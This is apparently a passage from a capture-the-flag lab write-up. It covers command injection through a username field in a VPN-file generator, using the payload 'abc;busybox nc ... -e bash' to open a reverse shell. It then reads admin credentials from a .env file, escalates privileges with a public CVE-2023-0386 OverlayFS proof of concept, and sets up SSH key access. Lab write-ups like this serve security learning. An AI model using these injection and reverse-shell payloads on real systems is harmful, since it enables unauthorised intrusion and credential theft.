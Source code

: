 It generates a VPN file by passing our username and if it generates with a bash command let's try to add a semicolon and then a revshell:

listener:
```bash
python3 -m pwncat -lp 6666
```
then:
```json
{
"username":"abc;busybox nc 10.10.14.95 6666 -e bash"
}
```
### User flag:

We're in before to enumerate we can looking around the __"/var/www/html"__ folder indeed in __".env"__ there are credentials to admin user, we can now retrieve the user flag in __"/home/admin"__.

> First I saw index.php in the source it called a DB connection and it takes the credentials from a $envVariables from a $envFIle called .env

### Privesc:

It's time to enumerate in order to privesc; after some times spent looking around we can read a mail in __"/var/mail/admin"__

> I made an error; I spent some time searching around, but if you log in with SSH, a message will appear indicating that the admin user has new mail

```
I'm know you're working as fast as you can to do the DB migration. While we're partially down, can you also upgrade the OS on our web host? There have been a few serious Linux kernel CVEs already this year. That one in OverlayFS / FUSE looks nasty. We can't get popped by that.
```

It talks about a kernel exploit called OverlayFS at this point it's time to use google.

We can find a good POC [here](https://github.com/xkaneiki/CVE-2023-0386)

> this [blog](https://securitylabs.datadoghq.com/articles/overlayfs-cve-2023-0386/) explain what is it and which version is affected
>> From blog you can retrieve the CVE number CVE-2023-0386 a quick search "CVE-2023-0386 poc" prompt the POC

we can escalate with the following commands:

```bash
upload /tmp/poc.zip /tmp/poc.zip #pwncat command 

unzip poc.zip

make all

./fuse ./ovlcap/lower ./gc
```
at this point we need another terminal to run the final command so we can interrupt the previous one and set an SSH access:
```bash
cd /home/admin

ssh-keygen -t rsa -b 2048 #enter all the data it requests
cd .ssh
cat id.rsa.pub > authorized_keys
```
then:
```bash
chmod 600 id_rsa
ssh -i id_rsa admin@10.10.11.221
```
> Here I found out the mail